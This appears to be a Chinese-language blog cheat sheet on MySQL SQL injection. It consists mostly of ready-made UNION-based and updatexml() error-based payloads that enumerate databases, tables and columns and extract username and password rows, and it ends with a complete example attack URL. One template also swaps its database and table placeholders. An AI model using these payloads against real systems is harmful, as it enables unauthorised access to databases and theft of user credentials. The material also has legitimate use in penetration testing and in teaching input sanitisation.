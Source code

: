```yaml
---
author: 
  name: Zephyr
title: SQL注入
date: 2022-6-20 16:07:01
permalink: /pages/2e1547494524d1be
tags: 
  - SQL
---
```

# SQL注入

爆表名

```mysql
union select 1,database(),group_concat(table_name) from information_schema.tables where table_schema=database()
```



爆列名

```mysql
union select 1,2,group_concat(column_name) from information_schema.columns where table_name='users' and table_schema=database()
```



爆字段

```mysql
union select 1,group_concat(username,":",password),3 from users
```



## 报错注入

### updatexml()函数

#### updataxml()函数用法

```mysql
UPDATEXML (XML_document, XPath_string, new_value);
```

第一个参数：`XML_document`是`String`格式，为`XML`文档对象的名称

第二个参数：`XPath_string` (Xpath格式的字符串) 

第三个参数：`new_value`，`String`格式，替换查找到的符合条件的数据

作用：改变文档中符合条件的节点

#### updatexml报错注入用法

##### 爆出数据库的版本信息

```mysql
and updatexml(1,concat(0x7e,@@version,0x7e),1)%23
```

因为`concat()`是将其连接成一个字符串，不符合`xpath_string`格式，会出现格式错误而报错，并会爆出

##### 爆出连接用户

```mysql
and updatexml(1,concat(0x7e,user(),0x7e),1)%23
```

##### 爆表

```mysql
and updatexml(1,concat(0x7e,(select table_name from information_schema.tables where table_schema=数据库的十六进制表示),0x7e),1)%23
```

```mysql
and updatexml(1,concat(0x7e,(select table_name from information_schema.tables where table_schema=0x7868) ,0x7e),1)%23
```

```mysql
and updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x7e),1)%23
```

##### 爆列名

```mysql
and updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name='库的十六进制表示' and table_schema='表的十六进制表示'),0x7e),1)%23
```

```mysql
and updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name='users' and table_schema=database()),0x7e),1)%23
```

##### 查数据

```mysql
and updatexml(1,concat(0x7e,(select concat_ws("~",列名) from 表名 limit 0,1),0x7e),1)%23
```

```mysql
and updatexml(1,concat(0x7e,(select concat_ws("~",id,username,password) from users limit 0,1),0x7e),1)%23
```

##### 例子

```mysql
http://localhost/index.php?r=content&cid=1 and updatexml(1,concat(0x7e,(select title from content limit 0,1),0x7e),1)%23
```